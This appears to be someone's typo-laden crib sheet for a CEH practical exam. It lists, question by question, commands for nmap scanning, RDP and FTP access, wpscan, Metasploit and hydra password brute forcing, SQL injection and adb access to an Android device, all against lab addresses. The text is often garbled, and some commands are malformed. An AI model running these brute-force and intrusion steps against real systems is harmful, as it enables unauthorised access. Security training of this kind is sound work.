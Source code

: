 1 after disovering webstie find opearting system machien hosting
 namp -sv ip/24
we can find the host like 3306  next 
nmap -O ip
 or namp -A ip/24  it will  be late

2 in organizaitn network seucirty assesment domain execute domain name
first rdp login
after goest to command 
net user
 
3 network admkinstirot locating teh ip to machine 
nmap -Pn 8080 -p psV 3389 ip
ans in first question itself while scanning

4 ethcial hacker one des ftp-ip hex file excyrpito
cyryptool section ect got to desktop selec tfile ftp.hec and decrytp after
 in command 
ftp ip 
username and password given
after get flago.txt in qustion
5 locate the stegnograph means snow tool
6 you are worker of organizaiton idenstify if ip and port/ceh like that means
 wpscan --url http://10.10.10.10:8080/NEW -u root -P passwdfile.txt (Use this only after enumerating the user like in step 3)
			         wpscan --url http://10.10.10.10:8080/NEW --usernames userlist.txt, --passwords passwdlist.txt 
if not working means
use auxilliary/scanner/http/wordpress_login_enum
 						 show options
						 set PASS_FILE /home/attacker/Desktop/Wordlist/password.txt
						 set RHOSTS 10.10.10.10  (target ip)
						 set RPORT 8080          (target port)
						 set TARGETURI http://10.10.10.10:8080/ajith
						 set USERNAME admin
7 a sile callest secret text dvwa
 click url login and you get downlaod file 
and copy and paste in hasehe.com
8 ethical hacker working you secre no of backdoor
use rdp login  and before follow q2 
browse pathin in question and copy that opoen that file secret
9 wireshar
10 wireshark
 11 fftp site hsoted on machine on network flaf context file
ftp 421
 open parrot
  hydra -L /home/attacker/Desktop/CEH_TOOLS/Wordlists/Username.txt -P /home/attacker/Desktop/CEH_TOOLS/Wordlists/Password.txt ftp://10.10.10.10

hydra -l user -P passlist.txt ftp://10.10.10.10 IF USER NAME GIVEN
NEXT FTP ip
 username and password
 get flag .txt
12 exmployee name excrypted login start F;// nnnn 
nmap  see subnet scan 
rdp login up and use username and password
or scan whole subnet nmap ip/24
and we can get the login
13 movie production sql dsss
 use the sql injection in dhabaleaswe
 14 wireshart
 15 owasp tool
 16 a ascanning on you can ethcia hacker soa host are alive
 namp -sn ip/24
17 vera crypt
18 crypttool 
19 ana sset amnagment company androi mobile sd card 
nmap uo -pn 
adb connect ip:5555
cd sdcard 
cat opne
20  exploit vulnerable extrac ip address use bc tect encoder 



